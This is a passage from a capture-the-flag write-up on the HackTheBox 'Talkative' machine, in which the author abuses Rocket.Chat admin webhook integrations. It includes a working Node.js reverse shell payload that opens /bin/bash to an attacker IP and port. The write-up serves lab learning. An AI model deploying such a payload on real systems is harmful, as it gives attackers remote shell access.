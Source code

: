 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812173913.png)

We're `admin` now! But... No conversations??

**After fumbling around, I found that there's an "Administration" dashboard:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812174515.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812174521.png)

**Then, right off the bat, I saw "Integrations":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812174805.png)

Hmm... Maybe we can create some **webhooks**?

**Let's try to create a "New integration":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812174852.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812174856.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812175116.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812175122.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812175138.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812175145.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812175152.png)

Hmm? Script?

According to the [documentation](https://docs.rocket.chat/use-rocket.chat/workspace-administration/integrations), **the webhook uses ES2015 / ECMAScript 6 scripts (JavaScript) to process the request.**

That being said, we can **create a webhook that when a message is sent, it'll trigger a reverse shell payload**!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812180153.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181801.png)

**The Node.js Reverse shell payload is from [revshells.com](https://www.revshells.com/):**
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4443, "10.10.14.6", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

